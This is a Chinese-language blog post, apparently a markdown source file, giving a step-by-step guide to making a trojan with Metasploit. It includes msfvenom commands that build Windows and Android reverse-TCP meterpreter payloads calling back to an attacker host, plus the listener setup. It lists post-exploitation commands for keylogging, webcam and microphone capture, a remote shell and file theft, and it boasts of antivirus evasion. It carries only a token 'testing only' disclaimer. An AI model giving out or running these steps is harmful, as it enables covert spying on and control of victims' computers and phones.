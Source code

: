 ```yaml
---
title: Kali-Metasploit制作简易木马
date: 2015-08-05 12:01:00
category: OS
tags: 
    - Linux
---
```


相信很多人都有这种感觉,觉得那些会做木马病毒的人非常牛逼,当然会自己完全写出来木马病毒的肯定非常牛逼,但是实际上,大部分人都是在前人的基础上修改,很多则是用工具生成,出于兴趣,研究了一段时间"黑"科技,也实践了一下!

总结了几点简单的工具用法,如果你会用这些工具,你会发现也许一个木马没有你像现在那么难做出来!本文是本着研究的精神,所有攻击行为都是测试,请勿用于非法用途!

测试环境:kali linux windows7 windows 10 Android等操作系统

主要工具:metasploit framework

<!--more-->

关于所用工具,本文不做过多介绍,这里介绍的使用方法也是最基本最简单的用法:

## 1.使用metasploit 工具生存一个木马(windows版本),命令如下:
```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -f exe >demo.exe
```
LHOST=后面的ip地址是你自己的局域网ip,目前本人所有的攻击测试仅在局域网试过,也就是内网,关于外网的使用暂时不太清楚如何进行!

demo.exe为生成的木马文件,把木马文件拷贝到对方电脑上,双击即可运行!据测试,该木马可以过360安全卫士,电脑管家等常用杀毒软件!这还是在没有做任何加密\加壳的情况下.....不过在有些人的电脑上360可以杀出来!可能是版本不同

## 2.打开软件,设置好监听,命令依次如下:
```
use exploit/multi/handler
set payloads windows/meterpreter/reverse_tcp
set LHOST 192.168.1.47
set LPORT 8080
exploit
```

## 3.坐等上钩
此时,只要对方电脑点击运行demo.exe木马文件,这边监听端口就可以收到信息,建立连接!然后可以执行一些入侵指令,对方现在电脑完全在你的掌控之下,常用命令如下:
```
sysinfo     //查看攻击主机的系统信息
kill         //结束进程
ps          //查看进程
reboot      //重启电脑
reg        //修改注册表
shell        //获取shell
shutdown    //关闭电脑
keyscan_start //开启健盘记录功能
keyscan_dump //查看健盘记录信息
keyscan_stop //停止健盘记录
download     //下载文件
upload        //上传文件
uictl enable keyboard　　　//获取键盘鼠标控制权
record_mic　　　　//音频录制
webcam_chat　　　//查看摄像头接口
webcam_list　　　//查看摄像头列表
webcam_stream　 //摄像头视频获取
................
```
## 4.生成Android版本的木马,其实步骤和上面差不多
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -r >demo.apk
```
只要你下载安装到你手机上,你手机基本上也是别人的了,获取联系人\通讯录\定位打开摄像头\照片.......而且经测试,小米手机自带的安全中心对此木马完全没用!

不过,据我暂时了解的知识,距离一个完整的木马还有点距离:

1. 杀毒软件.据我测试,腾讯的电脑管家就是垃圾,扫描不出来我生成的木马,360基本上一扫就出来,经过简单编码加密后,360会提示风险程序,而系统自带的windows defender更是一点点用都没.不过要想真把木马做成免杀还得花点功夫.......

2. 木马持续后门.所谓持续后门就是能让木马开机后自启,经测试,msf自带的2种方法无效.....暂时未找到可行性方法!

3. 外网控制.这是一个大问题,比较难解决,现在的攻击都是基于同一个局域网内!

4. 权限问题.360是个麻烦事,在有些机子上进行操作,比如打开摄像头,360会有提示.....而且木马暂时还没法子终结360的进程,所以蛋疼!

在日常生活中,专门去攻击某些个人的情况很少,很多时候黑客都是采用自动化工具遍地撒网,利用一些公开的漏洞进行攻击!普通人能做的只是让自己别中这些自动化黑客工具的招就行了,如果某些个人或者组织想黑你,真的很简单.............
